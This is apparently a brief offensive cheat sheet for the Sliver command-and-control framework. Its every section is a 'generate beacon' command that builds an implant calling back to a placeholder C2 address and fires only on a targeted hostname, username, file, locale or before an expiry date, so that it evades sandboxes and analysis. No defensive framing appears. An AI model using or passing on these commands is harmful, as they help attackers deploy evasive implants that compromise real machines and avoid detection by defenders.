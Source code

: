 ```yaml
---
author(s):
  - Userware
tags:
  - post-exploitation
  - defense-evasion
  - anti-sandbox
  - sliver
  - cross-platform
---
```

# Sliver

Specify the name of the computer you're targeting to trigger the implant.

```
sliver > generate beacon -m <IP>:<PORT> -S 5 -J 10 -z <hostname>
```

Specify the username to trigger the implant.

```
sliver > generate beacon -m <IP>:<PORT> -S 5 -J 10 -y <username>
```

Specify a path to the file to detonate the implant when it detects it.

```
sliver > generate beacon -m <IP>:<PORT> -S 5 -J 10 -F "C:\\local\\path\\to\\file"
```

Specify the locale system to trigger the implant.

```
sliver > generate beacon -m <IP>:<PORT> -S 5 -J 10 -L <locale>
```

Set the expiration date when malware will stop establishing connection to the C2.

```
sliver > generate beacon -m <IP>:<PORT> -S 5 -J 10 -w <end_of_date>
```
